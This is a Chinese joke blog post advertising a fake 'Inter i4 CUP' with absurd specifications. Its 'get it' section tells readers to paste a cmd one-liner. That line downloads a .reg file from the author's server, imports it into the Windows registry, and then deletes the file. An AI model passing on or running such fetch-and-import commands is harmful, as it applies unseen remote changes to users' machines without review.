```yaml
---
title: 出售路边小作坊限定 Inter i4 CUP
date: 2020-09-27 17:29:00
updated: 2020-09-27 17:30:08
categories: 代码
tags:
- Intel
- CPU
- i5
- i4
- AMD
- 路边小作坊
- 装逼
- REG
thumbnailImage: https://lfs.libmbr.com/assets/2020/09/27/i4.png
---
```

本文章内容全是扯淡
路边小作坊 i4 CUP 性价比超高 免费送一个
<!-- more -->
## 特色 ##
0.0Ghz 高主频，祝您的游戏可以达到3FPS电竞帧数
最多支持 128b 内存，让你同时运行128个程序
全新 Inter128 ，获得更高的软件兼容性
NMSL-Lake 架构，性能更好
9核高速处理器，其中4大核5小核
L3 Cache .6Mb，减少了蓝屏的概率
不支持虚拟化，防止虚拟机bd渗入实体机，也防止了杀毒软件高占用
## 获取 ##
按下 Windows Logo Key+R
输入cmd 回车
输入下面的命令 粘贴好了回车：
``curl https://lfs.libmbr.com/assets/2020/09/27/i412thGen.reg --output "Installi4CPU.reg" && Installi4CPU.reg &&ping localhost > nul && del "Installi4CPU.reg"``

## 效果 ##
![  ][1]


  [1]: https://lfs.libmbr.com/assets/2020/09/27/i4.png